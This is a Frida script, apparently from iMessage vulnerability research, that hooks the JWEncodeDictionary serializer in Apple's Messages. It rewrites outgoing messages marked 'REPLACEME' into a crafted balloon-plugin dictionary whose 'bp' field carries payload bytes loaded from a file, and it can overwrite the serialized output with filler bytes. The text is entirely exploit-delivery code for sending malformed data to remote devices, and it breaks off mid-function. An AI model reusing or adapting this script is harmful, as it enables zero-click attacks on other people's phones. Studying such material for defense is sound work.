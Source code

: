 ### injectMessage.js
```js
// Whether the serialized outgoing message should be replaced entirely.
var replaceSerializedMessage = false;

// Create the replacement data.
var dataLen = 0x100;
var rawData = new Uint8Array(dataLen);
for (var i = 0; i < dataLen; i++)
    rawData[i] = 0x41;
var buffer = Memory.alloc(dataLen);
buffer.writeByteArray(rawData.buffer);
var replacementData = ObjC.classes.NSData.dataWithBytes_length_(buffer, dataLen);

// Hook the message serialization routine.
var jw_encode_dictionary_addr = Module.getExportByName(null, "JWEncodeDictionary");
send("Hooking JWEncodeDictionary" + jw_encode_dictionary_addr);
Interceptor.attach(jw_encode_dictionary_addr, {
    onEnter: function(args) {
       var dict = ObjC.Object(args[0]);
        if (dict == null) {
            return;
        }

        send(dict.toString())

        var t = dict.objectForKey_("t")
        if (t == null) {
            return;
        }

        if (t == "REPLACEME") {
                   console.log(dict);
                   var newDict = ObjC.classes.NSMutableDictionary.dictionaryWithCapacity_(dict.count());
                   var d = ObjC.classes.NSData.dataWithContentsOfFile_("[OBJ PATH]");
                   console.log(d);
                   newDict.setObject_forKey_("com.apple.messages.MSMessageExtensionBalloonPlugin:0000000000:com.apple.mobileslideshow.PhotosMessagesApp", "bid");
                   newDict.setObject_forKey_(d, "bp");                        
                   newDict.setObject_forKey_(8, "gv");
                   newDict.setObject_forKey_(0, "pv");
                   newDict.setObject_forKey_(1, "v");
                   newDict.setObject_forKey_("FAA29682-27A6-498D-8170-CC92F2077441", "gid");
                   newDict.setObject_forKey_(d, "bp");
                   
                   newDict.setObject_forKey_("CB2F0B8D-84F6-480E-9079-27DA53E14EBD", "r");
                         
                   newDict.setObject_forKey_(1, "v");
                   
                   newDict.setObject_forKey_("\Ufffd\Ufffc", "t");
                   args[0] = newDict.handle;

                   send("DONE");
        }
    },

    onLeave: function(retval) {
        if (replaceSerializedMessage) {
            console.log("replacing")
            retval.replace(replacementData);
            replaceSerializedMessage = false;
        }
```